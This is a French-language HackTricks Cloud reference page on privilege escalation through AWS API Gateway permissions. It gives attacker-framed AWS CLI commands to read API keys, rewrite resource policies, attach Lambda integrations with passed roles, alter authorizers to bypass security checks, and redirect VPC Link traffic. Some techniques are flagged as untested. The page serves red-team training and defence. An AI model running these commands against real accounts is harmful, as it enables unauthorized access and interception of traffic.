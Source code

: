 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Avec cette permission, vous pouvez générer des clés API des APIs configurées (par région).
```bash
aws --region <region> apigateway create-api-key
```
**Impact potentiel :** Vous ne pouvez pas privesc avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:GET`

Avec cette autorisation, vous pouvez obtenir les clés API générées des API configurées (par région).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impact potentiel :** Vous ne pouvez pas privesc avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Avec ces autorisations, il est possible de modifier la politique de ressource d'une API pour vous donner accès à l'appeler et abuser de l'accès potentiel que la passerelle API pourrait avoir (comme invoquer une lambda vulnérable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impact potentiel :** Vous ne pourrez généralement pas effectuer de privesc directement avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant des autorisations `apigateway:PutIntegration`, `apigateway:CreateDeployment` et `iam:PassRole` peut **ajouter une nouvelle intégration à une API Gateway REST API existante avec une fonction Lambda qui a un rôle IAM attaché**. L'attaquant peut alors **déclencher la fonction Lambda pour exécuter du code arbitraire et potentiellement accéder aux ressources associées au rôle IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès aux ressources associées au rôle IAM de la fonction Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant des autorisations `apigateway:UpdateAuthorizer` et `apigateway:CreateDeployment` peut **modifier un authorizer API Gateway existant** pour contourner les vérifications de sécurité ou pour exécuter du code arbitraire lors des requêtes API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Contournement des vérifications de sécurité, accès non autorisé aux ressources API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant de la permission `apigateway:UpdateVpcLink` peut **modifier un VPC Link existant pour le faire pointer vers un autre équilibreur de charge réseau, redirigeant potentiellement le trafic API privé vers des ressources non autorisées ou malveillantes**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impact potentiel** : Accès non autorisé aux ressources API privées, interception ou perturbation du trafic API.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
